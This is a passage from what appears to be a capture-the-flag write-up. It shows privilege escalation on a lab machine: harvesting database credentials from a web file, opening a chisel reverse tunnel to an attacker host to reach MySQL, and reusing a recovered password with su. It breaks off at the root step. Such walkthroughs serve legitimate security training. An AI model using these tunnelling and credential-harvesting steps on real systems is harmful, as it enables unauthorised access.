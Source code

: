 Great! We got access to the target.

## **Privilege Escalation**

### www-data --> theseus

Since there is a login page, let's see if we can find any passwords in the web files.

![](10.png)

On `db.php5` file we found the database credentials, unfortunately for us the user `theseus` doesn't reuse his password.

Let's connect to the mysql server with the command: `mysql -u theseus -p`

![](11.png)

Mysql is not installed!!

#### Chisel

With the help of `chisel`, let's forward the mysql port and access it from out machine.

on the attacker machine we setup a chisel server:

```bash
./chisel server --reverse --port 9002
```

Now on the target we connect to the server:

```bash
./chisel client 10.10.17.90:9002 R:3306:localhost:3306
```

Now on our attacking machine we connect to the mysql server:

```bash
mysql -h 127.0.0.1 -P 3306 -u theseus -p
```

![](12.png)

We found a password, let's see if `theseus` uses it.

```bash
www-data@ubuntu:/tmp/sirius$ su theseus                                                                                                                       
Password:                                                                                                                                                     
theseus@ubuntu:/tmp/sirius$ id                                                                                                                                
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

He does!

### theseus --> root
